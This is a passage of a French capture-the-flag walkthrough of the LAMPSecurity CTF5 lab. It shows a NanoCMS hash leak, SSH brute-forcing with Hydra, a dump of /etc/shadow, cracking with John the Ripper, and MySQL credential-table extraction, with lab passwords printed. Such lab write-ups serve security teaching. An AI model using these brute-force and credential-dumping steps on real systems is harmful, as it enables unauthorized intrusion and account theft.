/home/andy/public_html/data/libs/admin.settings.lib.php:86:				<td>$word_new $word_password</td><td><input type="text" name="password" value=""/></td>

--snip--

bash-3.2$ exit
exit
 sent 146, rcvd 3498

[*] All done. Exiting
```

La recherche a porté ses fruits, le premier fichier trouvé ```/home/andy/public_html/data/pagesdata.txt``` semble particulièrement intéressant. 

### NanoCMS '/data/pagesdata.txt' Password Hash Information Disclosure Vulnerability

Au vu de l'emplacement du fichier ```pagesdata.txt``` (public_html), celui-ci est accessible dans l'arborescence du blog d'andy (donc, dans un navigateur).

Une vulnérabilité [a été trouvée en 2009](https://www.securityfocus.com/bid/34508/discuss) sur le système de gestion de contenu
[NanoCMS](https://github.com/kalyan02/NanoCMS) : « _NanoCMS is prone to an information-disclosure vulnerability because it fails to validate access to sensitive files. An attacker can exploit this vulnerability to obtain sensitive information that may lead to further attacks_ ». Fait amusant, celui qui a découvert cette vulnérabilité n'est autre que Justin C. Klein Keane, alias [madirish2600](https://www.vulnhub.com/author/madirish2600,75/), le concepteur du challenge LAMPSecurity.

En effet, ce fichier semble stocker le hash MD5 du mot de passe de l'utilisateur ```admin```, et est en outre accessible sans aucune authentification sur le site.



Une brève recherche sur Internet nous donne le mot de passe en clair : ```shannon```.
Il est désormais possible de se connecter au panel d'administration du blog d'Andy.



Outre cette vulnérabilité, madirish2600 a trouvé d'autres problèmes [au cours d'un audit plus complet](https://seclists.org/fulldisclosure/2009/Apr/126) de NanoCMS : entre autres, des droits de lecture et d'écriture trop permissifs dans certains répertoires, un couple d'identifiants par défaut ```admin:demo``` (qui n'a cependant pas fonctionné sur le serveur LAMPSecurity CTF5), des _Cross-Site Scripting_ explicitées plus bas et surtout, [la possibilité d'injecter du code PHP un peu partout sur le site](https://www.exploit-db.com/papers/12885/) (en anglais, _Remote Code Execution_ ou RCE).

Une fois connecté en tant qu'administrateur sur NanoCMS, il est désormais possible de modifier le contenu du blog.

Voici un premier exemple, avec la création d'une page qui exécute sur le serveur toute commande Unix passée en paramètre.





Ou encore mieux, la possibilité [d'obtenir un accès similaire](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) à celui de la CVE-2017-7692.





C'est cool d'avoir un shell, mais ce serait tout de même bien mieux avec un autre compte Unix (sans rancune, apache).

### Attaque par dictionnaire avec Hydra sur SSH, partie 1

Pour rappel, cinq comptes Unix disposant d'un shell valide ```/bin/bash``` ont été trouvés dans le fichier ```/etc/passwd```.

Pour trouver les mots de passe de Patrick, de Jennifer, d'Andy, de Loren et d'Amy, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'attaque par dictionnaire avait plutôt bien fonctionné sur SquirrelMail, donc autant réutiliser l'outil-couteau-suisse [__Hydra__](https://sectools.org/tool/hydra/).

```console
root@blinils:~# cat usersCTF5.txt
patrick
jennifer
andy
loren
amy
    
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
--snip--
```

Il s'agit du même mot de passe trouvé précédemment, il faudra s'en contenter pour l'instant.

```console
root@blinils:~# ssh amy@192.168.56.101
amy@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1

[amy@localhost ~]$ id
uid=504(amy) gid=504(amy) groups=504(amy) context=unconfined_u:system_r:unconfined_t:s0

[amy@localhost ~]$ cat .bash_history
su patrick
su jennifer
su andy
su loren
exit

[amy@localhost ~]$ sudo -l
Password:
Sorry, user amy may not run sudo on localhost.

[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/amy -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/jennifer -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/loren -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/patrick -e 'password' 2>/dev/null
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:3:  <title>Root password</title>
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:4:  <text xml:space="preserve"><note-content version="0.1">Root password
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:6:Root password
/home/patrick/.tomboy.log:68:12/5/2012 7:24:46 AM [DEBUG]: Renaming note from New Note 3 to Root password
/home/patrick/.tomboy.log:69:12/5/2012 7:24:56 AM [DEBUG]: Saving 'Root password'...
/home/patrick/.tomboy.log:70:12/5/2012 7:25:03 AM [DEBUG]: Saving 'Root password'...
```

Wouhou! Patrick semble avoir sauvegardé le mot de passe ```root``` dans Tomboy, un logiciel libre de prise de notes.

```console
[amy@localhost ~]$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note

--snip--
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
--snip--

[amy@localhost ~]$ su -
Password: 
[root@localhost ~]# 
```

[« À vous le compte root ! C'est gagné ! Grâce à monsieur Patrick, vous êtes un winner ! »](https://fr.wikipedia.org/wiki/22_minutes_chrono)

### Attaque par dictionnaire avec Hydra sur SSH, partie 2

Il s'agit de la même attaque, mais avec [le dictionnaire de __John The Ripper__](https://www.openwall.com/john/) cette fois-ci.

Au bout d'une heure et demie, les résultats sont bien plus probants : les mots de passe de Patrick et de Jennifer ont été trouvés.

```console
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/john.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 15535 login tries (l:5/p:3107), ~1554 tries per task
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
[22][ssh] host: 192.168.56.101   login: patrick   password: ne1410s
[STATUS] 166.83 tries/min, 14848 tries in 01:29h, 687 to do in 00:05h, 10 active
[22][ssh] host: 192.168.56.101   login: jennifer   password: homebrew
1 of 1 target successfully completed, 3 valid passwords found
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

En parallèle de l'attaque avec Hydra, les investigations continuent avec le compte root. Le fichier ```/etc/shadow``` est particulièrement intéressant, car 
[il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@localhost ~]# cat /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
bin:*:14362:0:99999:7:::
daemon:*:14362:0:99999:7:::
adm:*:14362:0:99999:7:::
lp:*:14362:0:99999:7:::
sync:*:14362:0:99999:7:::
--snip--
haldaemon:!!:14362:0:99999:7:::
gdm:!!:14362:0:99999:7:::
patrick:$1$DJYtkxSw$t.47LsE1j2VJKgBVT1Lar0:15679:0:99999:7:::
jennifer:$1$04FqEhSX$Nft0Rs7H2VhUK.fX53cPb1:15679:0:99999:7:::
andy:$1$29jCTuBP$OvytZOP3NacMeAcrbpoMR.:15679:0:99999:7:::
loren:$1$fWsonMXA$1uVln.k4Bh81j2zhCU1jL.:14362:0:99999:7:::
amy:$1$DDLpVzyX$zez4/KCciNorxsjZspzTM0:15679:0:99999:7:::
mysql:!!:14362::::::
cyrus:$1$BzxZidrU$dYMc0ad3NmEJX8L9dNrqJ0:14363::::::
webalizer:!!:16294::::::
[root@localhost ~]#
```

Un troisième dictionnaire est appelé à la rescousse : [rockyou.txt](https://wiki.skullsecurity.org/Passwords).

```console
root@blinils:~# unshadow passwdCTF5.txt shadowCTF5.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
dolphins         (amy)
ne1410s          (patrick)
homebrew         (jennifer)
marvin1          (andy)
buckyboy         (loren)
```

Afin d'être le plus exhaustif possible, le mot de passe de root est fourni à John The Ripper.

```console
root@blinils:~# echo "50\$cent" > last
root@blinils:~# john passwd.db --wordlist=last
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Remaining 2 password hashes with 2 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
50$cent          (cyrus)
50$cent          (root)
2g 0:00:00:00 DONE (2018-01-03 05:07) 200.0g/s 100.0p/s 200.0c/s 200.0C/s 50$cent
Use the "--show" option to display all of the cracked passwords reliably
Session completed


root@blinils:~# john passwd.db --show
root:50$cent:0:0:root:/root:/bin/bash
patrick:ne1410s:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:homebrew:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:marvin1:502:502:Andrew Carp:/home/andy:/bin/bash
loren:buckyboy:503:503:Loren Felt:/home/loren:/bin/bash
amy:dolphins:504:504:Amy Pendelton:/home/amy:/bin/bash
cyrus:50$cent:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash

7 password hashes cracked, 0 left
```

Les investigations se poursuivent avec le compte suivant, Patrick, [qui dispose de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs. 

```console
root@blinils:~# ssh patrick@192.168.56.101
patrick@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1
[patrick@localhost ~]$ 

[patrick@localhost ~]$ sudo -l
Password:
User patrick may run the following commands on this host:
    (ALL) ALL

[patrick@localhost ~]$ sudo su
[root@localhost patrick]# 

[root@localhost patrick]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:system_r:unconfined_t:s0

[root@localhost patrick]# head -n1 /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
```

### Accès à la base de données

L'historique des commandes bash de Patrick recèle de grands trésors en son sein. On y retrouve ainsi...

* Le mot de passe root ```50$cent``` entré par erreur en clair à la suite d'une faute de frappe (sus au lieu de su).
* Les commandes d'édition relatives au logiciel Tomboy, dont l'une des notes contient le mot de passe root.
* Et surtout, le mot de passe administrateur de la base de données MySQL !

```console
[patrick@localhost ~]$ cat .bash_history
df -h
rpm -qa | grep webmin
exit
mysql -u root -pmysqlpassword
su
sus
50$cent
su
logout
--snip--
```

Le mot de passe MySQL n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[patrick@localhost ~]$ mysql -u root -pmysqlpassword
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35366
Server version: 5.0.45 Source distribution

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| contacts           | 
| drupal             | 
| mysql              | 
| test               | 
+--------------------+
5 rows in set (0.03 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
| information_schema | CHARACTER_SETS                        | 
| information_schema | COLLATIONS                            | 
--snip--
| information_schema | USER_PRIVILEGES                       | 
| information_schema | VIEWS                                 | 
| contacts           | contact                               | 
| drupal             | access                                | 
| drupal             | authmap                               | 
| drupal             | blocks                                | 
| drupal             | blocks_roles                          | 
| drupal             | boxes                                 | 
--snip--
| drupal             | system                                | 
| drupal             | term_data                             | 
| drupal             | term_hierarchy                        | 
| drupal             | term_node                             | 
| drupal             | term_relation                         | 
| drupal             | term_synonym                          | 
| drupal             | url_alias                             | 
| drupal             | users                                 | 
| drupal             | users_roles                           | 
| drupal             | variable                              | 
| drupal             | view_argument                         | 
| drupal             | view_exposed_filter                   | 
| drupal             | view_filter                           | 
| drupal             | view_sort                             | 
| drupal             | view_tablefield                       | 
| drupal             | view_view                             | 
| drupal             | vocabulary                            | 
| drupal             | vocabulary_node_types                 | 
| drupal             | watchdog                              | 
| mysql              | columns_priv                          | 
| mysql              | db                                    | 
| mysql              | func                                  | 
| mysql              | help_category                         | 
| mysql              | help_keyword                          | 
| mysql              | help_relation                         | 
| mysql              | help_topic                            | 
| mysql              | host                                  | 
| mysql              | proc                                  | 
| mysql              | procs_priv                            | 
| mysql              | tables_priv                           | 
| mysql              | time_zone                             | 
| mysql              | time_zone_leap_second                 | 
| mysql              | time_zone_name                        | 
| mysql              | time_zone_transition                  | 
| mysql              | time_zone_transition_type             | 
| mysql              | user                                  | 
| mysql              | user_info                             | 
+--------------------+---------------------------------------+
98 rows in set (0.03 sec)

mysql> select id, name, email, phone, org from contacts.contact;
+----+----------------------+----------------------------------+----------------+----------------------+
| id | name                 | email                            | phone          | org                  |
+----+----------------------+----------------------------------+----------------+----------------------+
|  1 | Patrick Fair         | patrick@localhost.localdomain    | 555.123.4567   | Phake Organization   |
|  2 | Mr. Important User   | important@localhost              | 555.123.4567   | Secret Org           |
|  3 | Jennifer Sea         | jennifer@localhost.localdomain   | 555.123.4567   | Phake Organization   |
|  4 | Andy Carp            | andy@localhost.localdomain       | 555.123.4567   | Phake Organization   |
|  5 | Loren Felt           | loren@localhost.localdomain      | 555.123.4567   | Phake Organization   |
|  6 | Amy Pendleton        | amy@localhost.localdomain        | 555.123.4567   | Phake Organization   |
+----+----------------------+----------------------------------+----------------+----------------------+

mysql> select uid, name, pass, mail from drupal.users;
+-----+----------+----------------------------------+--------------------+
| uid | name     | pass                             | mail               |
+-----+----------+----------------------------------+--------------------+
|   0 |          |                                  |                    | 
|   1 | jennifer | e3f4150c722e6376d87cd4d43fef0bc5 | jennifer@localhost | 
|   2 | patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 | patrick@localhost  | 
|   3 | andy     | b64406d23d480b88fe71755b96998a51 | andy@localhost     | 
|   4 | loren    | 6c470dd4a0901d53f7ed677828b23cfd | loren@localhost    | 
|   5 | amy      | e5f0f20b92f7022779015774e90ce917 | amy@localhost      | 
+-----+----------+----------------------------------+--------------------+
6 rows in set (0.00 sec)

mysql> select Host, User, Password from mysql.user;
+-----------------------+------+------------------+
| Host                  | User | Password         |
+-----------------------+------+------------------+
| localhost             | root | 769048ab7ad496c6 | 
| localhost.localdomain | root | 769048ab7ad496c6 | 
| %                     | root | 769048ab7ad496c6 | 
+-----------------------+------+------------------+
```

Les mots de passe stockés dans la table ```drupal.users``` permettent de se connecter sur ```/events/``` en tant que ```loren```, ```andy```, ```jennifer```, ```patrick``` ou encore ```amy```. Des sites Web tels que [CrackStation](https://crackstation.net/) ou [HashKiller](https://hashes.com/en/decrypt/hash) ne devraient en faire qu'une bouchée.

```console
https://crackstation.net/
e3f4150c722e6376d87cd4d43fef0bc5 Unknown : Not found.
5f4dcc3b5aa765d61d8327deb882cf99 MD5 : password
b64406d23d480b88fe71755b96998a51 Unknown : Not found.
6c470dd4a0901d53f7ed677828b23cfd MD5 : lorenpass
e5f0f20b92f7022779015774e90ce917 MD5 : temppass

https://www.hashkiller.co.uk/md5-decrypter.aspx
e3f4150c722e6376d87cd4d43fef0bc5 [Not found]
5f4dcc3b5aa765d61d8327deb882cf99 MD5 : password
b64406d23d480b88fe71755b96998a51 MD5 : newdrupalpass
6c470dd4a0901d53f7ed677828b23cfd MD5 : lorenpass
e5f0f20b92f7022779015774e90ce917 MD5 : temppass
```

### Bonus n°1 : Cross-Site Scripting sur plusieurs pages

Une _Cross-Site Scripting_, abrégée XSS, est l'une des failles de sécurité les plus répandues dans les applications Web. Elle peut être utilisée par un attaquant pour provoquer un comportement du site Web différent de celui désiré par le créateur de la page. Cette vulnérabilité est due à une validation incorrecte, côté serveur, des entrées provenant de l'utilisateur. Lors de l'accès à certaines pages du site Web, des paramètres HTTP (en-têtes, GET, POST) ou des éléments entrés par l'utilisateur sont réécrits directement dans la réponse du serveur, sans avoir été correctement validés, filtrés, nettoyés côté serveur. Un attaquant pourra alors injecter du code malveillant au lieu de données légitimes.

Par exemple, cette XSS sur NanoCMS avait été trouvée [lors de l'audit effectué par madirish2600](https://seclists.org/fulldisclosure/2009/Apr/126), dans le titre et le corps de la page.



Ou encore sur la page ```/list``` et ses quatre paramètres, qui avaient été détectés comme vulnérables par l'outil nikto.



En remplaçant ici les paramètres par du code Javascript, celui-ci sera réécrit dans la réponse du serveur et s'exécutera dans le navigateur du client. Si le code JavaScript utilisé ici est relativement bénin, il est possible de se servir de cette vulnérabilité pour créer des liens malveillants qui, une fois cliqués par la victime, déclencheront l'exécution du code malveillant dans son navigateur. Il s'agit du cas d'exploitation typique : l'exploitation de ces failles amène à la compromission et au vol de données privées d'un utilisateur. La première stratégie d'un attaquant consiste en général à la récupération d'un cookie pour ensuite usurper l'identité de sa cible.

### Bonus n°2 : Injection SQL sur la page /list

Cette page Web intitulée « _Register with Phake Organization_ » a pour contenu : _Please take a moment to register with Phake Organization. We collect information about our clients and event registrants in order to facilitate better, faster communication among stakeholders. All information will be kept strictly confidential!_ ce qui laisse clairement sous-entendre qu'une base de données est présente. Cette hypothèse est confirmée, d'une part, par le scan de ports réalisé au préalable avec nmap et, d'autre part, par le message _Thank you for registering! You have successfully been added to our contact database._ qui s'affiche après avoir rempli le formulaire et cliqué sur le bouton _```Register now!```_.



Ce formulaire consiste en quatre champs : nom de famille (paramètre ```name```), adresse e-mail (paramètre ```email```), numéro de téléphone (paramètre ```phone```) et nom de l'entreprise (paramètre ```org```). Ces données sont envoyées [avec la méthode HTTP POST](https://www.w3schools.com/tags/ref_httpmethods.asp) puis traitées par le serveur qui renverra le message de confirmation susmentionné. Or une personne malveillante [n'aura pas la même vision qu'un internaute légitime](https://en.wikipedia.org/wiki/Thinking_outside_the_box) et se posera alors les questions suivantes : le serveur vérifie-t-il si ce que fournit l'utilisateur correspond bien à ce qui est attendu ? que se passerait-t-il si, au lieu d'un numéro de téléphone, le serveur devait recevoir et traiter une centaine de caractères spéciaux ? et si, au lieu de caractères spéciaux aléatoires, ils étaient spécifiquement conçus de telle sorte à ce qu'il soit possible d'interagir avec le serveur et la base de données ? et pourquoi pas récupérer intégralement, grâce à ce code, le contenu de la base de données ?

Pour un attaquant, le but du jeu est de modifier le fonctionnement d'origine d'une fonction, d'un programme ou d'un script, en y insérant des données non prévues. Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. Ici, l'insertion d'une seule apostrophe suffit à démontrer la présence d'une « [injection SQL](https://owasp.org/www-community/attacks/SQL_Injection) » a minima sur le champ ```name```.

